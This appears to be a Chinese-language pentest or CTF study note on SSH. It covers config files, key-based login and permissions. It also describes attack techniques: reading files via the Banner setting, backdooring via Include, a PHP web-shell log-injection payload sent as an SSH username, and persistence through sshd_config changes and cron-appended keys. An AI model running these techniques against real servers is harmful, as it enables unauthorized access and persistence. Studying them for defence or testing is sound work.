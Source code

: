 # ssh服务

## 介绍

SSH（Secure Shell，安全壳协议）是一种用于安全远程登录和数据传输的加密网络协议。它广泛应用于Linux、Unix、Windows等操作系统中，用于在不安全的网络环境中安全地访问和管理远程服务器或设备。



## 默认端口

22



## 配置文件

/etc/sshd_config

/etc/ssh_config




## 相关文件

authorized_keys

id_rsa

id_rsa.pub





## ssh连接

```
ssh 用户名@ip
```

可以加入-i参数指定密钥文件（实现免密登录）

加入-p参数指定端口（默认为22）





## 利用ssh上传文件

```
scp <filename> <user>@<ip>:/path/
```





## 关于sshd_config

ssh配置文件

banner默认显示欢迎信息，但是如果改成文件路径，那么登陆时就会返回文件内容，因此可以通过修改Banner信息进行任意文件读取

Include能加载其他配置文件，如果能写入这些文件，就能实现后门写入

如Include /tmp/backdoor

然后再backdoor中写后门





## 关于相关文件权限

SSH 对文件权限很严格，因为它们存敏感信息（私钥、公钥）。权限不对，SSH 就认为不安全，拒绝登录。400 是只读，600 是读写，都只限文件拥有者。

~/.ssh目录默认是700（drwx------）

id_rsa私钥文件，其默认权限为400，即r--------，只有root权限可读，当其权限不为400时，ssh登录将失败

authoirzed_keys文件，默认为600，若权限过宽（如644），SSH会登陆失败（StrictModes启用时）





## 关于免密登录

认证过程：

- 用户将公钥上传到目标服务器的~/.ssh/authorized_keys文件中
- 客户端使用私钥发起连接请求
- 服务器用公钥验证客户端的签名，若匹配则允许登录，无需密码。

```
ssh-copy-id user@target_ip  # 自动把公钥加到服务器
```

因此如果我们能够读取~/.ssh/id_rsa，便可尝试ssh -i id_rsa免密登录





## 关于ssh日志注入

当尝试日志注入时，提示报错，原因可能是ssh9.6以上的版本本地进行了用户名校验

```
ssh '<?php system($_GET["a"]);?>'@192.168.1.12
```

![image-20250328153716427](./assets/image-20250328153716427.png)

![image-20250328154611473](./assets/image-20250328154611473.png)

可以选择ssh版本降级

或是更简单的方法：使用nc

![image-20250328154229349](./assets/image-20250328154229349.png)

![image-20250328154304579](./assets/image-20250328154304579.png)

成功写入日志

![image-20250328154329382](./assets/image-20250328154329382.png)

且能成功执行命令





![image-20250328154426702](./assets/image-20250328154426702.png)

![image-20250328154435750](./assets/image-20250328154435750.png)







## 关于公钥劫持

通过修改sshd_config文件相应配置信息实现公钥劫持

首先生成密钥，并将公钥保存到目标服务器

检测配置文件 /etc/ssh/sshd_config，查看PermitRootLogin的状态

```
PermitRootLogin yes  # 运行root用户通过SSH登录
StrictModes no  # 禁用权限严格检查，避免因权限问题阻止SSH登录 
AuthorizedKeysFile  /home/ssh/.ssh/id_rsa.pub  # 指定使用自定义的公钥文件
```

重启ssh服务便可实现免密登录

如果目标用户的authorized_keys文件可写，也可以直接将自己的公钥写入

同时可以尝试加入定时任务，echo公钥内容>> authorized_keys





关于登录报错

https://blog.csdn.net/weilaozongge/article/details/141926639





